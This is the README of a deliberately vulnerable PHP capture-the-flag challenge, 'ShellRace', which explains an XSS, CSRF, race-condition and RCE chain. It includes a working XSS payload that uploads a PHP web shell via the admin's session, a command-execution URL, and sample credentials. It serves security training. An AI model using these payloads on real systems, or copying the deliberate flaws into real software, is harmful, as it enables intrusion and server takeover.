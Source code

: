 # ShellRace CTF Challenge

This is a vulnerable PHP application designed for Capture The Flag (CTF) competitions. It contains several deliberately implemented vulnerabilities that form an exploit chain:

1. XSS (Cross-Site Scripting)
2. CSRF (Cross-Site Request Forgery)
3. Race Condition
4. RCE (Remote Code Execution)

## Setup Instructions

1. Deploy this application on a PHP-enabled web server (e.g., Apache with PHP).
2. Make sure the `uploads` directory is writable by the web server.
3. Run the admin bot periodically (e.g., via a cron job):
   ```
   */1 * * * * php /path/to/admin_bot.php
   ```

## Login Credentials

- Regular user: `user` / `password123`
- Admin: `admin` / `adminpass`

## Vulnerability Chain

### 1. XSS Vulnerability

The comments section in the dashboard doesn't sanitize user input, making it vulnerable to XSS attacks.

Example payload:
```html
<script>alert('XSS vulnerability!');</script>
```

### 2. CSRF via XSS

Since the admin bot visits the dashboard and views all comments, an attacker can inject JavaScript that performs a CSRF attack to upload a malicious PHP shell.

Example payload:
```html
<script>
// Create a hidden form to upload a PHP shell
var form = document.createElement('form');
form.method = 'POST';
form.action = 'admin.php';
form.enctype = 'multipart/form-data';
form.style.display = 'none';

// Create the file data
var fileData = '<?php system($_GET["cmd"]); ?>';
var blob = new Blob([fileData], {type: 'application/x-php'});
var formData = new FormData();
formData.append('file', blob, 'shell.php');

// Submit the form via fetch API
fetch('admin.php', {
  method: 'POST',
  body: formData,
  credentials: 'include'
}).then(response => {
  console.log('Shell uploaded successfully!');
});

</script>
```

### 3. Race Condition

The uploaded shell is automatically deleted after 10 seconds, so there's a small window to exploit it.

### 4. Remote Code Execution (RCE)

Once the shell is uploaded, the attacker can execute system commands by visiting:
```
http://localhost/uploads/shell.php?cmd=id
```

## The HTTP-only Cookie Protection

The session cookie is set with the HTTP-only flag, preventing JavaScript from accessing it directly. However, the CSRF attack leverages the admin's active session, bypassing this protection.

## Flag Location

For CTF purposes, place a flag file at a non-guessable location, for example:
```
/flag_0xf8a2b3c4.txt
```

## Legal Disclaimer

This application is intended for educational purposes and authorized security testing only. Do not deploy it on public-facing servers or use it against systems without proper authorization. 